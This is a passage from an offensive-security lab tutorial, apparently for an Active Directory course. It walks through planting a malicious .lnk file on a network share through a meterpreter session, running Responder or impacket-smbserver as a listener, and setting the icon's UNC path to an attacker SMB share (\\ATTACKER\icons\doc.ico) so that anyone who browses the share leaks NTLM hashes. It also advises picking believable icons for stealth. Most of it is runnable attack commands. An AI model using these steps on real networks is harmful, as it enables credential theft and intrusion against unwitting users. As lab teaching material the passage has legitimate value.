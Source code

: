 ```
meterpreter >
```

> **Why background?** Keeps the interactive shell alive (and any mapped drives/env) so you can return without spawning a new shell.

### 5) Verify the `.lnk` exists

```text
meterpreter > shell
```

```cmd
dir \\TARGET-SERVER\hackme
```

You should see `readme.lnk`.

---

## Listener on Kali

**Responder** (capture hashes; also handles LLMNR/WPAD in labs):
```bash
sudo responder -I eth0 -dwv
```

- `-d` DHCP, `-w` WPAD, `-v` verbose. (Use the correct interface instead of `eth0`.)

**OR simple SMB server** (no poisoning; just serve `/tmp/icon`):
```bash
mkdir -p /tmp/icon
impacket-smbserver icon /tmp/icon -smb2support
```

When a user browses the share, the icon fetch `\\ATTACKER\icon\foo.ico` hits your listener.

---

## Choosing Believable Icons

Set `IconLocation` to something users expect, but keep the **UNC** to force SMB auth:

- **Custom `.ico` over UNC** (recommended for capture):  
  `\\ATTACKER\icons\doc.ico`
- **Default Windows DLLs** (if you don’t need capture):  
  `%SystemRoot%\System32\shell32.dll,3` (folder)  
  `%SystemRoot%\System32\shell32.dll,70` (gear)
- **Office application icons** (if present):  
  `%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0`

> For credential capture, keep the icon on your **attacker SMB share** (UNC). For stealth without capture, use local system DLL icons.

---

## Variations & Notes (PEH AD Lab)
